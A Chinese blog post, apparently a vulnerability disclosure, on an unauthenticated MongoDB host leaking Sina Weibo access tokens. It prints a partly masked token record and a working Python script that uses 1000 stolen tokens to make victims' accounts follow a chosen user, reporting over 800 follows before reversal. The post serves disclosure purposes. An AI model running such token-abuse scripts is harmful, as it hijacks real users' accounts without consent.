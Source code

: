 ```yaml
---
layout: post
title: Mongodb未授权访问漏洞之某主机泄露新浪微博accessToken
---
```


### {{ page.title }}


<p class="date">{{ page.date | date_to_string }} - Evi1m0</p>

--------

### 背景

在前段时间邪红F1,2,4发出 [《Mongodb unauthorized access vulnerability global probing report》](http://www.hackersoul.com/post/mongodb_unauthorized_access_vulnerability_global_probing_report.html) 后，我们对这些受影响的列表进行了简单的数据分析，其中发现了一台有趣的主机。

### 数据泄露

其中这台Mongodb数据主机存储着大量的微信公众号信息，新浪微博授权信息等敏感信息，其中我们对新浪微博授权信息进行简单的测试。

### 测试过程

筛选1000条存储的用户新浪微博的授权数据，其中格式为：

    {
        "_modified" : ISODate("2014-09-14T06:30:33.718Z"),
        "_created" : ISODate("2014-09-14T06:30:33.718Z"),
        "uid" : "163****265",
        "url" : "u/163****265",
        "name" : "猫****",
        "screenName" : "猫****",
        "accessToken" : "2.00LniemB******d10ba02ef5oEMJTB",
        "description" : "",
        "verified" : false,
        "logo" : "http://tp2.sinaimg.cn/1635102265/50/4000*****04/1",
        "logoLarge" : "http://tp2.sinaimg.cn/1635102265/180/4000*****04/1",
        "type" : "normal",
        "_id" : "14872d****48a87"
    }
    
其中数据泄露新浪微博用户授权成功后的accessToken值，将数据以JSON进行导出后使用Python进行处理，提取出1000条accessToken方便进行测试。

[微博API](http://open.weibo.com/wiki/%E5%BE%AE%E5%8D%9AAPI)：

- [statuses/update 发布一条微博信息](http://open.weibo.com/wiki/2/statuses/update)
- [statuses/user_timeline/ids 获取用户发布的微博的ID](http://open.weibo.com/wiki/2/statuses/user_timeline/ids)
- [statuses/destroy 根据微博ID删除指定微博](http://open.weibo.com/wiki/2/statuses/destroy)
- [friendships/create 关注一个用户](http://open.weibo.com/wiki/2/friendships/create)
- [More](http://open.weibo.com/wiki/%E5%BE%AE%E5%8D%9AAPI)

之后我们使用关注用户API进行简单的测试，编写脚本批量的利用泄露的accessToken值进行关注用户：

    #!/usr/bin/env python
    # coding=utf8
    # author=evi1m0#ff0000team

    import requests

    f = open('./accessToken.txt','r')
    flag = 1
    for i in f:
        api_url = 'https://api.weibo.com/2/friendships/create.json'
        post = {"uid":"5238604657", "access_token":i.split()}
        requests.post(api_url, data=post)
        flag+=1
        print '[*] ' + str(flag) + ': ' + api_url
        print post
        print
        
其中uid为关注用户的UID，遍历./accessToken.txt中的accessToken进行请求，于是不一会儿的功夫我们测试微博收到了新增800多个粉丝的消息，后面我们又利用取消关注API进行了取消操作。

### 状态

我们没有对这些数据进行恶意利用，目前已提交给官方进行及时修复：）
